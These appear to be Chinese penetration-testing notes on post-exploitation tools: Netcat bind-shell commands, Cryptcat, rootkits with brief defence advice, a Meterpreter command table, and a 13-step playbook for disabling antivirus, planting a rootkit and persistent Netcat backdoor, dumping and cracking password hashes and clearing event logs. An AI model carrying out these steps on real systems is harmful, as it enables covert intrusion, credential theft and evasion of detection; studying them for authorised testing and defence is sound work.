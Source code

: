 linux命令：nc -l -p 12345 -e /bin/sh

windows命令：nc -L -p 12345 c:\Windows\System32\cmd.exe

### Netcat神秘的家庭成员：Cryptcat

Netcat的缺点是所有流经Netcat服务器和客户端的流量都是明文，任何查看流量或嗅探连接的人都能看到并监视到计算机之间传送的信息。而Cryptcat使用twofish来加密。

### Rootkit

Rootkit的操作是在操作系统中比较底层的内核中运行，一般用于隐藏文件或程序，并保持后门访问的隐蔽性。

注：必须确保在使用Rootkit进行渗透测试之前，客户端有权使用Rootkit。

Hacker Defender：一个强大的Rootkit。

### Rootkit的检测与防御

我们知道，为了配置和安装Rootkit，必须使用管理员权限，因此，避免Rootkit的第一步就是降低用户权限。第二，安装，使用和维护最新版的软件。第三，监控所在网络的进出流量。第四，定期对系统进行端口扫描，记录下每一个系统上开启的每一个端口。使用一些可以发现隐藏文件和Rootkit的工具，如Rootkit Revealer，vice等。

### Meterpreter：无所不能

Meterpreter基本命令：

命令 | 功能
--- | ---
cat file_name | 显示指定文件内容
clearev | 清楚目标机器应用程序，系统和安全日志中报告的所有事件
download < source_file>< destination_file> | 从目标下载指定文件到本地主机
edit | 提供一个VIM编辑器，可以对文档进行更改
execute -file_name | 运行/执行目标上的指定文件
getsystem | 命令meterpreter尝试将权限提升到最高级
hashdump | 定位和显示目标上的用户名及散列，可以复制到文本中供John the Ripper破解
idletime | 显示机器不活动的时间
keyscan_dump | 显示当前从目标计算机上捕捉的击键（必须先运行keyscan_start）
keyscan_start | 开始记录目标上的击键（为了捕捉击键，必须迁移到explorer.exe进程中）
keyscan_stop | 停止记录用户击键
kill pid_number | 停止指定进程（进程ID可以运行ps命令找到）
migrate | 将meterpreter shell移到另一个运行中的进程
ps | 打印目标上运行的所有进程的列表
screenshot | 提供来自目标机器的屏幕截图
search -f file_name | 在目标机器上搜索指定文件
sysinfo | 提供目标机器的相关系统信息
upload < source_file>< destination_file> | 从你的攻击机将指定文件上传到目标机器

一个简单的方法：

1. 进行漏洞利用，对目标使用Meterpreter攻击载荷
2. 使用”migrate”命令将Meterpreter转移到那些不为人熟知的进程中。比如服务主机(svchost.exe)
3. 使用”kell”命令禁用防病毒软件
4. 使用”shell”命令访问目标机器的命令提示符，并使用”netsh advfirewall firewall”命令更改Windows防火墙设置（使连接或者端口可以开放）
5. 在禁用防病毒的情况下，使用”upload”命令上传一个包含Rootkit和其他工具(nmap,Metasploit,John the Ripper等)
6. 用”execute -f”命令安装rootkit
7. 如果rootkit没有包含后门，用”execute -f”安装Netcat作为永久后门
8. 用”reg”命令修改注册表，确保Netcat持久化
9. 用”hashdump”命令转储密码散列，使用John破解密码
10. 用”edit”命令配置rootkit.int文件，隐藏上传的文件，后门，新打开的窗口
11. 从攻击机器建立到目标的新连接，测试上传的后门
12. 用”clearev”命令清楚事件日志
13. 攻击下一个目标

### 补充

Ncat：现代版的Netcat，是Nmap的组成部分，增加了SSL和IPV6的支持。
